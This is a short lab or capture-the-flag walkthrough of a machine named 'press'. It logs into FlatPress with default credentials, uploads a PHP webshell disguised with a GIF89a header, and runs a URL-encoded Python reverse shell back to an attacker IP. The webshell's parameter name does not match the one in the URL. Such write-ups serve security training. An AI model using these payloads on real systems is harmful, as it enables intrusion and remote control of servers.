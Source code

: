 # press

I start by a quick nmap to look for open ports:

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

On the first webpage:

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

On the second web page:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

so i clicked on the login page and managed to connect through default creds admin:password

Then i found this exploit since the nmap scan revealed `FlatPress fp-1.2.1`

{% embed url="https://github.com/flatpressblog/flatpress/issues/152" %}

```
GIF89a;
<?php
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

nice we got our webshell so i can try to get a reverse shell ->

```
http://192.168.54.29:8089/fp-content/attachs/shell.php?c=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%22192.168.49.54%22,1234));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

Once i get my reverse shell i enumerate for sudo rights:

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

and just like that i'm able to root the machine and elevate my privileges:

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>
